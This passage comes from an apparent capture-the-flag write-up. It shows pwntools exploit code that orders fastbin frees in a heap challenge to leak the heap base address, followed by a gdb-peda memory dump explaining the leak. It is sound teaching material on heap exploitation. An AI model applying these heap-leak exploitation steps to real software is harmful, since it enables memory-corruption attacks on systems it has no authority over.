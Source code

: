 ```py
    io.sendlineafter("Choice >>","2")
    io.sendlineafter("Index:",str(idx))

if __name__=="__main__":
    add(0x70,'0000')
    add(0x70,'1111')
    add(0x70,'2222')
    free(1)
    free(2)
    free(0)
    add(0x10,'\xf0')
    gdb.attach(io)
    free(3)
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))
    io.interactive()

```

The procedure in which we got leak was -> 

> free(1), free(2) and then free(0)

This causes fastbin list to be created in the way **0->2->1** due to the **LIFO** property of fastbins
{: .notice}

Now when we add another note of size **0x10** , initially it takes out chunk 0 from the fastbins for initialising the header , and then it takes out chunk 2 as even user requested size is **0x10** itself which is the cause of heap leak. 

From here , we need to analyze memory to get a better perspective of the exploit.


```sh
0x555555758000:	0x0000000000000000	0x0000000000000021 -> Chunk at idx 0
0x555555758010:	0x0000555555758150	0x0000000000000010
0x555555758020:	0x0000000000000000	0x0000000000000081
0x555555758030:	0x0000000030303030	0x0000000000000000
0x555555758040:	0x0000000000000000	0x0000000000000000
0x555555758050:	0x0000000000000000	0x0000000000000000
0x555555758060:	0x0000000000000000	0x0000000000000000
0x555555758070:	0x0000000000000000	0x0000000000000000
0x555555758080:	0x0000000000000000	0x0000000000000000
0x555555758090:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x5555557580a0:	0x0000000000000000	0x0000000000000021 -> Chunk at idx 1
0x5555557580b0:	0x0000000000000000	0x0000000000000070
0x5555557580c0:	0x0000000000000000	0x0000000000000081
0x5555557580d0:	0x0000000031313131	0x0000000000000000
0x5555557580e0:	0x0000000000000000	0x0000000000000000
0x5555557580f0:	0x0000000000000000	0x0000000000000000
0x555555758100:	0x0000000000000000	0x0000000000000000
0x555555758110:	0x0000000000000000	0x0000000000000000
0x555555758120:	0x0000000000000000	0x0000000000000000
0x555555758130:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x555555758140:	0x0000000000000000	0x0000000000000021 -> Chunk at idx 2 , from which we just leaked heap
0x555555758150:	0x00005555557580f0	0x0000000000000070
0x555555758160:	0x0000000000000000	0x0000000000000081
0x555555758170:	0x0000000032323232	0x0000000000000000
0x555555758180:	0x0000000000000000	0x0000000000000000
0x555555758190:	0x0000000000000000	0x0000000000000000
0x5555557581a0:	0x0000000000000000	0x0000000000000000
```